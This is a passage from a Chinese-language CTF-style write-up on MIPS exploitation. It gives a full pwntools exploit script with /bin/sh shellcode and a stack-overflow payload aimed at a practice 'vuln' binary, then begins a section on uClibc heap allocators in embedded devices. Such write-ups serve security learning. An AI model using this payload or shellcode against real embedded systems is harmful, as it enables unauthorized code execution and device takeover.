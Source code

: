 ![图片](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/MIPS101/ZBTMJ1kqnw4Tihq4.png)

定位到shellcode 地址为 0x7fffe934+36+4

完整exp如下

```
#coding=utf-8
from pwn import *
import sys
context.update(log_level="debug",os="linux",bits = "32",arch="mips",endian="little",terminal=["tmux","splitw","-h"])
if len(sys.argv)>1:
    p = remote(sys.argv[1],int(sys.argv[2]))
    addr = 0x7fffe934+36+4
else:
    p = process(["/usr/bin/qemu-mipsel-static","-g","1234 ","./vuln"])
    addr = 0x76fff1ac
shellcode="\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00"
p2 = "GET %\x00X"+cyclic(1000)
p1 = "GET %\x00X"+"a"*36+p32(addr)+shellcode
pause()
p.recvline()
p.sendline(p1)
p.interactive()
```
参考 
[https://www.aperikube.fr/docs/breizhctf_2018/mips/](https://www.aperikube.fr/docs/breizhctf_2018/mips/)

More 

[https://blog.orange.tw/2012/06/defcon-ctf-20-qual-pp100-writeup.html](https://blog.orange.tw/2012/06/defcon-ctf-20-qual-pp100-writeup.html)

# level3 ： heap
嵌入式设备大多使用uClibc ，是glibc 的精简版，相关的堆分配策略和glibc不一样。

uclibc 下载地址

[https://www.uclibc.org/downloads/](https://www.uclibc.org/downloads/)

之前分析的DIR645 就使用了uClibc-0.9.30 版本

malloc相关文件在/libc/stdlib/中，包含了三种堆实现 

* malloc  
* malloc-standard  移植的dlmalloc 
* malloc-simple
